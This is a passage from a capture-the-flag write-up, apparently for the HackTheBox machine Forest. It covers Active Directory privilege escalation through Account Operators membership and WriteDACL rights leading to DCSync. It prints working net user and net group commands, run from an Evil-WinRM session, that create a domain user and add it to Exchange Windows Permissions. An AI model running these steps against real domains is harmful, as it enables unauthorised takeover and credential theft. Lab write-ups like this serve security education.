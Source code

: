 <figure><img src="../../../.gitbook/assets/writedacl.png" alt=""><figcaption><p>Figure 3: The Exchange Windows Permissions group has WriteDACL permissions over the HTB.LOCAL domain.</p></figcaption></figure>

Based on the information shown on those two queries, the following stand out:

1. The account `svc_alfresco` is a member of the [**Account Operators**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group (Figure 2). Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.
2. The **Windows Exchange Permissions** group has **WriteDACL** permissions over the **HTB.LOCAL** domain (Figure 3). As explained on [this](https://www.whiteoaksecurity.com/blog/account-operators-privilege-escalation/) article, members of this group have permission to grant themselves the required privileges for performing a [DCSync](broken-reference) attack.

Based on these two points, we can formulate the following attack path:

1. Create a **new domain user** account.
2. Add the account to the **Windows Exchange Permissions** **group**.
3. Assign **DCSync privileges** to the account.
4. Perform a [**DCSync**](broken-reference) **attack** over the domain.

### Escalating Privileges

We can perform the first two steps from our WinRM session.

{% code overflow="wrap" %}
```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker h@ck3r! /add
The command completed successfully.
# add user to the required domain group
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.
```
{% endcode %}
